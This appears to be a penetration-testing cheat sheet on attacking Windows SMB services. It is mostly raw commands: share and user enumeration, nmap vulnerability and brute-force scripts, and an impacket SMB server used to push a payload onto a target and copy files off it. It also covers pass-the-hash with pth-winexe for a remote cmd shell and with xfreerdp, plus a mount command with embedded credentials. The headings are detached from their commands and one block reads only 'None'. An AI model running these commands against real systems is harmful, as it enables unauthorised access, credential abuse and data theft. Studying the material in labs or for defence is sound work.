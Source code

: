 <https://highon.coffee/blog/enum4linux-cheat-sheet/>

mount -t cifs "//10.11.1.49/admin$" /mnt/windows/ -o username=bethany\alice,domain=workgroup,password=loading1 --verbose

## SMB Enum


## Fingerprint SMB version


## Find open SMB Shares


## Enumerate SMB Users


## SMB Server


## Pass the hash
**SMB**
In order to use pass the hash, we first need to put the hash in a env variable using the export command:


So we will atuhenticate against a smb-service.


I think you can run it like this too:


**Remote Desktop**


## Exploits
EternalBlue (MS17-010)

```sh
nmblookup -A 10.1.1.1

smbclient //MOUNT/share -I 10.1.1.1 -N
# connect to share, -N no password prompt

smbclient -L \\10.11.1.1 -U bob -S off
rpcclient -p 139 -U "bob" -S off 10.11.1.1
# disable message signing

rpcclient -U "" 10.1.1.1
# works on older windows versions

enum4linux 10.1.1.1
# discover Windows/Samba servers on subnet, finds Windows MAC addresses, netbios name & discover client workgroup/domain

nbtscan 10.1.1.0/24
# do everything, runs all options apart from dictionary based share name guessing

enum4linux -a 10.1.1.1
# performs all basic enumeration using smb null session

enum4linux -U 192.168.1.2   
#-You will get userlist
# SMB null session is an unauthenticated netbios session between two computers.
# SMB null session is available for SMB1 systems only i.e 2000,xp,2003

#To use an smb null session :
rpcclient -U "" 192.168.1.2
#when asked enter empty password
rpcclient $>srvinfo
rpcclient $>enumdomusers
rpcclient $>querydominfo
rpcclient $>getdompwinfo
#password policy
rpcclient $>netshareenum
nmblookup -A 192.168.1.1
rpcinfo -p <target>

#Enumerate using smbclinet:
smbclient -L //192.168.1.2
smbclient -L //192.168.1.2/myshare -U anonymous

smb> get data.txt
smb>put evil.txt

#Brute SMB password:
nmap -p445 --script=smb-brute.nse <ip>

# Brute force should always be your last option. 
# You can also use hydra to do it.

#Using nmap:
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.1.200-254

nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24

nmap -sSU -script smb-os-discovery.nse -p U:137,T:139,445 --script-args=smbsign=disable,smbuser=username,smbpass=password -oA 10.11.1.5_smbos -vv -n -Pn 10.11.1.5

nmap -sSU -script smb-vuln\* -p U:137,T:139,445 --script-args=smbsign=disable,smbuser=username,smbpass=password -oA 10.11.1.5_smbvuln -vv -n -Pn 10.11.1.5

nmap -sSU -script smb-enum\* -p U:137,T:139,445 --script-args=smbuser=username,smbpass=password -oA 10.11.1.5_smbenum -vv -n -Pn 10.11.1.5
```

```sh
None
```

```sh
nmap -oA 192.168.1.0_shares --script=smb-enum-shares --script-args=smbuser=username,smbpass=password -p445 192.168.1.0/24   
# possible techniques - specify no creds, empty creds, correct creds and incorrect creds

smbclient -L //192.168.1.100 -N
#list shares with no password prompt
```

```sh
nmap --script=smb-enum-users -sSU -pU:137,T:139 -oA 192.168.1.200-254_smbusers 192.168.11.200-254 
```

```sh
python /usr/share/doc/python-impacket/examples/smbserver.py probfine ./

#Get
copy \\10.1.1.1\probfine\payload .

#Put
copy C:\coolinfo \\10.1.1.1\probfine\
```

```sh
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```

```sh
pth-winexe -U administrator //192.168.1.101 cmd
```

```sh
pth-winexe -U admin/hash:has //192.168.0.101 cmd
```

```sh
apt-get update
apt-get install freerdp-x11

xfreerdp /u:admin /d:win7 /pth:hash:hash /v:192.168.1.101
```
